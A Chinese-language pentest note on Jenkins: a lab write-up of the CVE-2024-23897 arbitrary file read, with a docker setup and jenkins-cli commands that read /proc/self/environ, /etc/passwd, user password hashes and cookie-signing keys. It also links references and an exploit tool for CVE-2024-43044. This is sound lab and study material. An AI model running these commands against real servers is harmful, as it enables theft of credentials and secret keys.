

# Jenkins

**Jenkins** 是一个开源的自动化服务器，广泛应用于持续集成（CI）和持续交付（CD）中。它通过自动化软件的构建、测试和部署过程，帮助开发团队提高开发效率和软件质量。Jenkins 拥有丰富的插件生态系统，支持与多种工具（如 Git、Maven 和 Docker）集成，并提供直观的 Web 界面供用户配置构建流程。其分布式构建能力使得多个节点可以并行执行任务，从而提升构建效率。Jenkins 是现代软件开发中不可或缺的重要工具。

## Jenkins任意文件读取漏洞 (CVE-2024-23897，QVD-2024-3674)

Jenkins 使用 **args4j** 来解析命令行输入，并支持通过 HTTP、WebSocket 等协议远程传入命令行参数。在 args4j 中，用户可以通过 `@` 字符加载任意文件，这使得攻击者能够利用该特性读取服务器上的任意文件。
受影响版本：`Jenkins <= 2.441`、`Jenkins LTS <= 2.426.2`

### 漏洞环境

```bash
docker run --rm -p 8080:8080 -p 50000:50000 jenkins/jenkins:2.441-jdk17
```

### 漏洞利用

使用官方提供的 CLI 客户端，访问`http://localhost:8080/jnlpJars/jenkins-cli.jar`

```bash
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"
```

- 读取 `$JENKINS_HOME/users/users.xml` 文件以获取在 Jenkins 服务器上拥有账户的用户列表；

- 读取每个 `$JENKINS_HOME/users/*.xml` 文件以提取用户信息，如：用户名、用户种子、时间戳和密码哈希；

- 读取用于 cookie 签名的必要文件：
  - `$JENKINS_HOME/secret.key`
  - `$JENKINS_HOME/secrets/master.key`
  - `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

匿名情况下，只能通过命令行的报错读取文件的第一行。如果开启了“匿名用户可读”选项，可以直接使用 `connect-node` 命令读取完整文件内容：

`http://127.0.0.1:8080/manage/configureSecurity/`

```bash
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"
```

### 参考资料

- <https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
- <https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>
- <https://www.sonarsource.com/blog/excessive-expansion-uncovering-critical-security-vulnerabilities-in-jenkins>
- <https://www.hackthebox.com/blog/cve-2024-23897>
- <https://www.leavesongs.com/PENETRATION/jenkins-cve-2024-23897.html>

## Jenkins Remoting 远程代码执行漏洞（CVE-2024-43044）

### 参考资料

- <https://forum.butian.net/article/559>
- <https://blog.convisoappsec.com/en/analysis-of-cve-2024-43044/>
- <https://github.com/convisolabs/CVE-2024-43044-jenkins>



## 综合利用工具

### [JenkinsExploit-GUI](https://github.com/TheBeastofwar/JenkinsExploit-GUI)

## 参考资料

- <https://github.com/TheBeastofwar/JenkinsExploit-GUI>
